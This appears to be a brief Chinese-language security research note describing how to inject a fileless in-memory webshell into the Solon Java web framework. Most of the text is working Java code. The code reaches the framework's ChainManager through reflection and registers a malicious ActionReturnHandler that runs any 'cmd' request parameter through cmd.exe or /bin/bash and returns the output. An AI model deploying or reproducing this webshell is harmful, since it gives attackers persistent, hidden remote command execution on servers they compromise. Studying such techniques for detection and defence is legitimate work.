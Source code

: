 ActionReturnHandler内存马
----------------------

```java
Context ctx = Context.current();  
Object _request = getfieldobj(ctx,"_request");  
Object request = getfieldobj(_request,"request");  
Object serverHandler = getfieldobj(request,"serverHandler");  
Object handler = getfieldobj(serverHandler,"handler");  
Object arg$1 = getfieldobj(handler,"arg$1");  
ChainManager _chainManager = (ChainManager) getfieldobj(arg$1,"_chainManager");  
_chainManager.addReturnHandler(new ActionReturnHandlermemshell());
```

恶意ActionReturnHandler：

```java
public class ActionReturnHandlermemshell implements ActionReturnHandler{  
    @Override  
    public boolean matched(Class<?> returnType) {  
        return true; //为true时才回让returnHandle处理  
    }  
    @Override  
    public void returnHandle(Context ctx, Action action, Object returnValue) throws Throwable {  
        try{  
            if(ctx.param("cmd")!=null){  
                String str = ctx.param("cmd");  
                try{  
                    String[] cmds =  
                            System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"cmd.exe",  
                                    "/c", str} : new String[]{"/bin/bash", "-c", str};  
                    String output = (new java.util.Scanner((new  
                            ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\A").next();  
                    ctx.output(output);  
                }catch (Exception e) {  
                    e.printStackTrace();  
                }  
            }  
        }catch (Throwable e){  
            ctx.output(e.getMessage());  
        }  
    }  
}
```

思考
--

如果没有理解错的话，按照请求处理流程图，应该还有个Interceptor内存马或者Handler内存马。很菜，没有示例代码，不能调试分析

官方文档说，支持传统的WebServlet、WebFilter 和jsp，这应该也可以做内存马

参考
--

<https://solon.noear.org/article/learn-solon-web>

[https://wx.zsxq.com/dweb2/index/topic\_detail/8855182518512112](https://wx.zsxq.com/dweb2/index/topic_detail/8855182518512112)